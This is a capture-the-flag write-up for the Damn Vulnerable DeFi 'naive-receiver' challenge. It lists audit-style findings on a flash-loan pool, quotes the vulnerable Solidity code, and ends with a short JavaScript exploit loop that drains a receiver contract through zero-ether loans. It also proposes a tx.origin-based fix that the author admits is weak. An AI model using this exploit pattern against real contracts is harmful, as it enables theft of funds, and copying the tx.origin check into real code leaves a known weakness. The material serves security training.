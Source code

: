 # Damn Vulnerable DeFi

Damn Vulnerable DeFi is the wargame to learn offensive security of DeFi smart contracts.

Throughout numerous challenges you will build the skills to become a bug hunter or security auditor in the space.

https://www.damnvulnerabledefi.xyz/

# Introduction

naive-receiver is the second challenge in the Damn Vulnerable DeFi series.

Challenge description: 
There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.
You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.
Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

Challenge goal:
Transfer all the ether in the FlashLoanReceiver contract to NaiveReceiverLender contract.

# Findings 

## Critical Risk
### No Access Control

**Context:** [`FlashLoanReceiver.sol#L21-L32`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/FlashLoanReceiver.sol) and [`NaiveReceiverLenderPool.sol#L21-L41`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/NaiveReceiverLenderPool.sol)

**Description:**
NaiveReceiverLenderPool contract does not check who is calling the flashLoan function and FlashLoanReceiver only checks if the msg.sender is pool, so anybody can take flash loans on behalf of FlashLoanReceiver contract.

```solidity
function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value + fee;

    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
    _executeActionDuringFlashLoan();
        
    // Return funds to pool
    pool.sendValue(amountToBeRepaid);
}
```
**Disclaimer:** using tx.origin for authorization is a bad idea, but it's the only way I found without changing the whole flash loan logic.
**Recommendation:**
flashLoanReceiver should designate trusted address-es and check if tx.origin is trusted in receiveEther function.

```diff
+ address trustedAddress;
+ require(tx.origin == trustedAddress, "only trusted address can initiate loans");
- 
```

## Medium Risk
### No zero borrowAmount check

**Context:** [`NaiveReceiverLenderPool.sol#L21-L41`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/contracts/naive-receiver/NaiveReceiverLenderPool.sol)

**Description:** 
flashLoan function in NaiveReceiverLenderPool contract does not check if the borrowAmount is nonzero which can lead to users paying fees for nothing(zero ether loans).

```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    uint256 balanceBefore = address(this).balance;
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


    require(borrower.isContract(), "Borrower must be a deployed contract");
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );
        
    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

**Recommendation:**
flashLoan function should check if the borrowAmount is nonzero.

```diff
+ require(borrowAmount > 0, "borrowAmount must be nonzero");
-
```

# How To Solve The Challenge
take 10 zero ether flash loans on behalf of FlashLoanReceiver contract.

**Context:** [`naive-receiver.challenge.js#L32-L36`](https://github.com/tahos81/damn-vulnerable-defi-solutions/blob/master/test/naive-receiver/naive-receiver.challenge.js)

```javascript
it('Exploit', async function () {
    for (let i = 0; i < 10; i++) {
        await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
    }
});
```